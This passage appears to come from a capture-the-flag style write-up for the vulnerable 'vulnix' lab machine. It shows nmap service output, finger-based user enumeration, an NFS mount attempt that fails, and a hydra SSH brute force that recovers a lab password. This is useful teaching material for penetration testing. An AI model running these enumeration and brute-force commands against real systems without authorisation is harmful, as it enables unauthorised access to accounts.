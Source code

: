 >|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.  
>995/tcp  open  ssl/pop3   Dovecot pop3d  
>|_pop3-capabilities: PIPELINING CAPA UIDL SASL(PLAIN) USER TOP RESP-CODES  
>| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server  
>| Not valid before: 2012-09-02T17:40:22  
>|_Not valid after:  2022-09-02T17:40:22  
>|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.  
>2049/tcp open  nfs_acl    2-3 (RPC #100227)  
>Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel


### FINGER

kali@kali:~$ finger root@192.168.1.100
>Login: root           			Name: root  
>Directory: /root                    	Shell: /bin/bash  
>Never logged in.  
>No mail.  
>No Plan.

kali@kali:~$ finger vulnix@192.168.1.100
>Login: vulnix         			Name:   
>Directory: /home/vulnix             	Shell: /bin/bash  
>Never logged in.  
>No mail.  
>No Plan.

root@kali:/home# finger user@192.168.1.100
>Login: user           			Name: user  
>Directory: /home/user               	Shell: /bin/bash  
>Never logged in.  
>No mail.  
>No Plan.  
>
>Login: dovenull       			Name: Dovecot login user  
>Directory: /nonexistent             	Shell: /bin/false  
>Never logged in.  
>No mail.  
>No Plan.


### NFS

root@kali:/home/kali# showmount -e 192.168.1.100
>Export list for 192.168.1.100:
>/home/vulnix *

root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix

**Permission denied T.T'**


### BRUTEFORCE

kali@kali:~$ hydra -l user -P rockyou.txt 192.168.1.100 ssh -t 4
>Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
>Hydra (http://www.thc.org/thc-hydra) starting at 2018-03-10 15:38:39  
>[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task  
>[DATA] attacking ssh://192.168.1.100:22/  
>[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 4 active  
>[STATUS] 60.67 tries/min, 182 tries in 00:03h, 14344217 to do in 3940:44h, 4 active  
>[STATUS] 60.57 tries/min, 424 tries in 00:07h, 14343975 to do in 3946:51h, 4 active  
>[22][ssh] host: 192.168.1.100   login: **user**   password: **letmein**  
>1 of 1 target successfully completed, 1 valid password found  
>Hydra (http://www.thc.org/thc-hydra) finished at 2018-03-10 15:47:27
